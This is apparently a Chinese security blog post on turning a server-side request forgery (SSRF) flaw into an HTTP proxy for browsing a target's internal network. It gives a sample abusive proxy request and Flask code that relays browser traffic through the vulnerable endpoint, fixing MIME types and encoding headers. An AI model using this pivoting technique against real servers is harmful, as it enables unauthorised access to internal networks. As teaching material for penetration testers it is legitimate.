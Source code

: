 ```yaml
---
date: "2020-03-21T00:00:00Z"
description: SSRF(Server-side Request Forge, 服务端请求伪造)。由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务...
title: SSRF漏洞配合Flask的巧妙利用 - 内网漫游
url: /archivers/2020-03-21/2
---
```


## SSRF 服务器请求伪造

SSRF(Server-side Request Forge, 服务端请求伪造)。由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务。

### 常见的功能点

![2020-03-21-16-58-32](https://images.payloads.online/960b6a34-4f5f-11ec-80ff-00d861bf4abb.png)

- Net-NTLM && NTLM Relay
- 获取服务器真实IP
- 端口扫描
- **网页代理**
- ......

### 网页代理 - HTTP Proxy

![2020-03-21-17-01-01](https://images.payloads.online/964b0f36-4f5f-11ec-85c3-00d861bf4abb.png)

**客户端应用HTTP代理后，可通过代理服务器访问内网HTTP协议资源**

**而在SSRF场景，需要SSRF具备支持HTTP两大请求方式：GET、POST，且有响应Body**

```
POST /application/services/proxy/doPostAndGet HTTP/1.1
Host: app.domain.com
Connection: keep-alive
Content-Length: XX
Content-Type: application/json
Accept: */*
Referer: http://app.domain.com/application/portal/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

{
    "url":"http://domain.com/sso?login",
    "method":"post",
    "jsonBody":"{\"username\":\"123456\"}"
}
```


## Flask 框架

![2020-03-21-17-02-11](https://images.payloads.online/9685f1a0-4f5f-11ec-b8a6-00d861bf4abb.png)


Flask是一个用Python编写的Web应用程序框架，它基于Werkzeug WSGI工具包和Jinja2模板引擎。

Flask也被称为“microframework” ，因为它使用简单的核心，用extension增加其他功能，它没有默认使用的数据库、窗体验证工具。

```python
from flask import Flask
app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'Hello, World!'
```

![2020-03-21-17-02-36](https://images.payloads.online/96ce8dca-4f5f-11ec-826f-00d861bf4abb.png)

```
$ export FLASK_APP=hello.py
$ python -m flask run
 * Running on http://127.0.0.1:5000/
```
### Flask 框架的请求流程

1. befor_first_request
2. befor_request
3. after_request
4. teardown_request → 异常处理
5. after_this_request

![2020-03-21-17-03-02](https://images.payloads.online/97b9303c-4f5f-11ec-a5f5-00d861bf4abb.png)

```python
from flask import Flask, request, Response
import requests
app = Flask(__name__)

@app.before_request
def _proxy(*args, **kwargs):
    resp = requests.request(
        method=request.method,
        url=request.url,
        headers={key: value for (key, value) in request.headers},
        data=request.get_data(),
        cookies=request.cookies,
        allow_redirects=False)

    excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
    headers = [(name, value) for (name, value) in resp.raw.headers.items()
               if name.lower() not in excluded_headers]

    response = Response(resp.content, resp.status_code, headers)
    return response
if __name__ == "__main__":
    app.run(debug=True)
```

Flask的默认端口是：5000

![2020-03-21-17-03-33](https://images.payloads.online/97f79534-4f5f-11ec-ac7e-00d861bf4abb.png)

插件名称：SwitchyOmega

![2020-03-21-17-03-48](https://images.payloads.online/982fb572-4f5f-11ec-b357-00d861bf4abb.png)

通过把代理服务器设置为5000（Flask默认）端口，浏览器的所有请求都会经过这五个装饰器，在每个装饰器中，可以写自己的检测规则。由于许多的SSRF漏洞接口返回的Content-Type始终都是一样的，因此会产生图片、JS等静态文件无法加载，下面我们将解决这个问题。

### 解决文件类型问题

遇到这个问题，首先分析浏览器为什么无法加载。

1. SSRF漏洞接口返回的Content-Type是Json，那么我们还需要将Json转化为一个字典，把DATA取出。
2. 根据SSRF漏洞请求的URI来定义MIME Type，Response返回对应的MIME Type即可解决

```python
def get_filetype(url):
    content_type = 'text/html'
    response_mimetype = {
        '.png':'image/png',
        '.js':'application/javascript',
        '.jpg':'image/jpeg',
        '.gif': 'image/gif',
        '.jpeg':'image/jpeg',
        '.ico':'image/x-icon',
        '.css':'text/css',
        '.svg':'image/svg+xml',
    }
    disassembled = urlparse(url)
    filename, file_ext = splitext(basename(disassembled.path))
    content_type = response_mimetype.get(file_ext, 'text/html')
    return content_type
```

这里定义了一些常见的MIME类型，通过截取URI的文件扩展名来找到对应的MIME类型，默认找不到就以HTML返回，不知道还有没有更赞的办法，如果有欢迎分享。

### Content-Encoding问题

Accept-Encoding 和Content-Encoding是HTTP中用来对采用哪种编码格式传输正文进行协定的一对头部字段。

通过SSRF漏洞接口返回的通常可能是附带Content-Encoding头的响应，但与SSRF目标返回的不匹配，会造成网页展示不完全的情况。（本质上是接口取回的内容已经是解码后的，但接口本身可能又有编码头）

```python
excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
        headers = [(name, value) for (name, value) in resp.raw.headers.items()
                   if name.lower() not in excluded_headers]
```

这里的解决方式是剔除编码头 Content-Encoding。